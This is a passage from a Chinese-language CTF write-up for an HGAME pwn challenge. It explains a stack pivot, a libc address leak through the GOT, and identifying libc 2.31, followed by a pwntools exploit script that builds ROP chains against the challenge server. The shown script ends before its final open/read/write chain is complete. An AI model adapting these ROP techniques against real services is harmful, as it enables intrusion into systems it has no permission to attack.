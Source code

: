 然后进行第二次栈迁移,通过输出got表来泄露libc地址,并再次进行栈迁移,准备进行下一次读取.

```python
rdi_add=0x401713
rsir15_add=0x401711
read_got=0x404068
bss_2=0x404900
write_plt=0x401190
learet_add=0x4013cb
r.recvuntil(b"Good luck.\n")
r.send(p64(bss_2)+p64(rsir15_add)+p64(read_got)+p64(0)+p64(write_plt)+p64(rsir15_add)+p64(bss_2)+p64(0)+p64(read_add)+p64(learet_add)+p64(bss_add-0x50)+p64(learet_add))

libc_read=u64(r.recv(6).ljust(8,b"\x00"))
print(hex(libc_read))
```

但这题并没有为我们直接提供libc文件,所以我们将remote的地址改为线上环境,泄露线上环境的libc的read函数地址,然后将它提交给工具网站搜索出正确版本的libc.

![findlibcbanben](C:\Users\POI\Desktop\周报\周报10\findlibcbanben.png)

(这里基本已经确定就是libc2.31了)

之后我们下载对应版本的libc,按照正常的流程解题.

```c++
from pwn import *

context.log_level='debug'
r=remote("node1.hgame.vidar.club",30837)
#r=remote("127.0.0.1",9999)
r.recvuntil(b"Good luck.")
bss_add=0x404800
read_add_0=0x4013D9
read_add=0x401420
r.send(b"a"*0x50+p64(bss_add)+p64(read_add_0))
rdi_add=0x401713
rsir15_add=0x401711
read_got=0x404068
bss_2=0x404900
write_plt=0x401190
learet_add=0x4013cb
r.recvuntil(b"Good luck.\n")
r.send(p64(bss_2)+p64(rsir15_add)+p64(read_got)+p64(0)+p64(write_plt)+p64(rsir15_add)+p64(bss_2)+p64(0)+p64(read_add)+p64(learet_add)+p64(bss_add-0x50)+p64(learet_add))

libc_read=u64(r.recv(6).ljust(8,b"\x00"))
print(hex(libc_read))
r.recv()
bss_3=0x404a00
libc=ELF("./libc-2.31.so")
libc_base=libc_read-libc.sym["read"]     
open_add=libc.sym["open"]+libc_base
read_add=libc_read
write_add=libc.sym["write"]+libc_base
rdxr12_add=0x119431+libc_base
#movraxrdi_add=0x5b521+libc_base
rax_add=0x36174+libc_base
syscall_add=0x630a9+libc_base
print(hex(libc_base))
pause()
r.send(p64(bss_3)+p64(rsir15_add)+p64(bss_3)+p64(0)+p64(rdxr12_add)+p64(0x100)+p64(0)+p64(read_add)+p64(learet_add)+p64(0)*3)
pause()
```